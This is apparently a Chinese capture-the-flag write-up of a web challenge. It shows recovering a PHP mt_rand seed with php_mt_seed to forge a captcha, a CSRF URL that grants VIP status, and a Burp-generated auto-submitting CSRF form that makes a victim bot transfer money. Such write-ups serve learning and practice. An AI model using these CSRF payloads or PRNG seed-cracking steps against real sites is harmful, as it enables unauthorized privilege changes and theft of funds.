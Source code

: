 ## WriteUp

进去注册登录后进入主界面，题目提示要搞到双皮奶，进入点餐界面选双皮奶，提示需要vip。观察了一下题目各处的线索：源码中提示有管理界面，用于设置vip身份，主页下方的对话框有提示 `狮吼功继承人` 会点击我们发送到反馈的链接。结合题目hint可以知道是CSRF。

伪造好一个设置vip的url：

```
http://mc.vveelin.com.cn:8102/mng.php?name=user&vip=true
```

在反馈界面需要输入验证码，在页面注释中找到了验证码的生成算法

```HTML
<!--?php
//真的随机吗？
$seed = file_get_contents("/seed");
mt_srand($seed);
mt_rand();// == 1567320364
mt_rand();
mt_rand();
mt_rand();
mt_rand();
mt_rand();
$code = md5(mt_rand());
echo file_get_contents("random.php");
?-->
```

利用的伪随机数来生成验证码，由于给出了第一个随机数计算结果，用 `php_mt_seed` 得到种子：

```shell
# ./php_mt_seed 1567320364
Pattern: EXACT
Version: 3.0.7 to 5.2.0
Found 0, trying 0xa8000000 - 0xabffffff, speed 10840.7 Mseeds/s 
seed = 0xaa4cbfec = 2857156588 (PHP 3.0.7 to 5.2.0)
seed = 0xaa4cbfed = 2857156589 (PHP 3.0.7 to 5.2.0)
Found 2, trying 0xfc000000 - 0xffffffff, speed 10569.6 Mseeds/s 
Version: 5.2.1+
Found 2, trying 0x00000000 - 0x01ffffff, speed 0.0 Mseeds/s 
seed = 0x000a2c2a = 666666 (PHP 7.1.0+)
Found 3, trying 0x16000000 - 0x17ffffff, speed 103.7 Mseeds/s 
seed = 0x16b73644 = 381105732 (PHP 5.2.1 to 7.0.x; HHVM)
Found 4, trying 0xbe000000 - 0xbfffffff, speed 106.0 Mseeds/s 
seed = 0xbf3e7fc3 = 3208544195 (PHP 7.1.0+)                     
Found 5, trying 0xfe000000 - 0xffffffff, speed 106.0 Mseeds/s   Found 5
```

得到的 `666666` 很可疑，种子应该就是它，把种子代入上面的php代码中运行得到验证码 `2bfd7154e1f327a42dae866bac9ecd45` ，再把设置自己为vip的url反馈上去，过一会发现自己变成了vip。

再去买双皮奶提示钱不够，要很多钱，看了有转账的界面，构造一个表单提交：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://mc.vveelin.com.cn:8102/trans.php" method="POST">
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="money" value="999999999999" />
      <input type="submit" value="Submit request" />
    </form>
    <script language=javascript>
      setTimeout("document.forms[0].submit()",1000)
    </script>
  </body>
</html>
```

挂载在公网服务器上

因为狮吼功继承人收取了很多租金，有很多很多钱，还是把链接发上反馈

```
http://example.geek/PoC.html     //示例链接
```

过一会钱就变多了，再次购买双皮奶，拿到flag